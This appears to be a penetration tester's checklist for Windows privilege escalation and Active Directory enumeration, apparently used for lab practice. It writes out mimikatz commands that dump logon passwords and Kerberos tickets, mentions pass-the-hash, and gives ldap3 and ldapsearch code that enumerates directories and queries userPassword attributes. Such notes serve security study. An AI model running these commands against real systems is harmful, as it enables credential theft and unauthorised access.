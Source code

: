 #### Tools

* [ ] PrivescCheck.ps1 `Invoke-PrivescCheck -Extended`
* [ ] PowerUp.ps1 `Invoke-AllChecks`
* [ ] WinPeas

#### Extra resources

* [ ] Payload all things Windows Privesc https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* [ ] If a symbolic link is needed: https://github.com/googleprojectzero/symboliclink-testing-tools/releases/download/v1.0/Release.7z (see Symbolic writeup)
* [ ] Compile C code for windows with `mingw32`: https://stackoverflow.com/questions/2033997/how-to-compile-for-windows-on-linux-with-gcc-g

## ACTIVE DIRECTORY

* [ ] Domain users: `net user /domain`
* [ ] Specific user in domain: `net user <user> /domain`
* [ ] User SID: `whoami /user`
* [ ] Dump credentials: `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`
* [ ] Dump tickets: `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::tickets" exit`
* [ ] Pass the hash: Use RC4\_HMAC portion to pass the hash.
* [ ] LAPS: see **hutch** on proving grounds
* [ ] Try using python scripts to enum users:

```python
import ldap3
server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
connection = ldap3.Connection(server)
connection.bind()
print(server.info)

# Dump all objects
connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
print(connection.entries)

# Dump whole LDAP:
connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
print(connection.entries)
```

* [ ] `ldapsearch -x -b "dc=asky,dc=corp" -H ldap://10.1.139.113`
* [ ] `ldapsearch -x -h <IP> -s base.namingcontexts`
* [ ] `ldapsearch -x -h <IP> -b 'DC=?,DC=?'`
* [ ] Check for Lockout Policy: `ldapsearch -x -p 389 -h <machine IP> -b "dc=example,dc=local" -s sub "*" | grep lock`
* [ ] Check for local Groups (ex service accounts): `ldapsearch -h 10.129.93.167 -p 389 -x -b "dc=htb,dc=local"`
